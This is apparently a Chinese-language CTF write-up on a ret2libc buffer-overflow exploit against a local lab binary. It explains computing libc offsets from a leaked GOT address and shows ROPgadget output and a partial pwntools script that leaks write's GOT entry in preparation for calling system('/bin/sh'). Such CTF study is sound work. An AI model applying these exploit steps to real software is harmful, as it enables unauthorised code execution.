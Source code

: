 ```bash
clibc pwn 2.23
ldd pwn
cp /glibc/2.23/64/lib/libc.so.6 ./libc.so.6
```

程序system，静态的system与静态的puts的偏移量。

puts加载后再got表的地址（libc中的puts记载到内存的位置），

加载到内存产生的偏移量 = 加载后got地址 - 加载前libc内静态地址

**system动态可调用地址 = 加载内存的偏移量 + 静态的system地址**

puts_adr

system_adr

puts_got

iv = puts_got - puts_adr

system = iv + system_adr

write(write_got)

#### 动调计算偏移

```
cyclic 200
cyclic -l esp寄存器内的操作数
```

![image-20240523142332619](http://image.shangu127.top/img/2024/03/image-20240523142332619.png)

#### 构造泄露gotpayload

![image-20240523142600746](http://image.shangu127.top/img/2024/03/image-20240523142600746.png)

```
ROPgadget --binary ./pwn --only "pop|ret"
0x00000000004006b3 : pop rdi ; ret
0x00000000004006b1 : pop rsi ; pop r15 ; ret
```

exp:

```python
from pwn import *
import pdb
context(os='linux',arch='amd64',log_level='debug')
elf = ELF("./pwn")
libc = ELF("./libc.so.6")
io = process("./pwn")
write_adr = libc.symbols['write'] #获取静态write地址
system_adr = libc.symbols['system'] #获取静态system地址
main_adr = elf.symbols["main"]
shell_adr = libc.search(b"/bin/sh").__next__()
# pdb.set_trace()
write_got = elf.got["write"]
write_plt = elf.plt["write"]
#write_plt(1,write_got,100)
# ROPgadget --binary ./pwn --only "pop|ret"
# 0x00000000004006b3 : pop rdi ; ret
# 0x00000000004006b1 : pop rsi ; pop r15 ; ret
pop_rdi = 0x4006b3
pop_rsi_r15 = 0x4006b1
payload1 = b's'*136 + p64(pop_rdi) + p64(1) + p64(pop_rsi_r15) + p64(write_got) + p64(0) + p64(write_plt) + p64(main_adr)

io.recvuntil(b":")
```